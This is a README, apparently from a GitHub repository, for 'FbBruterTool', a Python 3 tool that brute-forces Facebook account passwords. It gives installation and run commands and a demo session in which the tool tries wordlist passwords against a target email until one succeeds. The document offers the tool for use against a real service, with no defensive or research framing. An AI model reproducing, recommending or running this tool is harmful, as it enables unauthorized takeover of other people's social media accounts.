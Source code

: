# FbBruterTool
Updates Facebook Python Brute Force Tool for Python 3

# Installation
```
pip3 install mechanize
```
```
git clone https://github.com/0sssama/FbBruterTool2/
```
```
cd FbBruterTool
```
```
python fb-bruter.py
```

# Demo
```
root@username:~ python fb-bruter.py
[?] Target Username/ID/Email >>> my.target@something.com

[?] Wordlist Directory >>> passwordFile.lst

BruteForcing my.target@something.com Now...

[!] Wrong Password! > qwertyuiop
[!] Wrong Password! > qwertyuiop123
[!] Wrong Password! > 123456789

#############################################

[+] Password Found! > password123

root@username:~ 
```
